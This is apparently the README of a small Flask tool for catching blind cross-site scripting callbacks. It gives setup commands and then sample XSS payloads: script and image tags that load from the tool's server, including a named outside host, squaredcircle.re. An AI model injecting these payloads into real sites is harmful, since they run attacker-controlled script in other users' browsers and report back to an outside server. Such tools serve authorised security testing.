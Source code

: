 
First, install dependencies:
```
$ pip3 install Flask
$ pip install Flask-SQLAlchemy
$ pip install flask_login
$ pip install pyopenssl
```

Then, set the environment and start the app:
```
$ export FLASK_APP=project
$ export FLASK_DEBUG=1
$ flask run -h 0.0.0.0 -p 5000
```

The first time you log on, you will need to create a user/password. Choose them well.

Then trigger a Blind XSS with something like:
```
"><script src='http://<ip>:<port>/unblind/xss/unique_str'></script>
"><script src='http://squaredcircle.re:5000/unblind/xss/unique_str'></script>
"><img src='http://squaredcircle.re:5000/unblind/xss/unique_str'/>
```

The tool is not beautiful neither fully functionnal. Need improvements ! Be my guest !

Optional: create the sqlite database:
```
$ python3
>>> from unblind import db, create_app
>>> db.create_all(app=create_app())
```

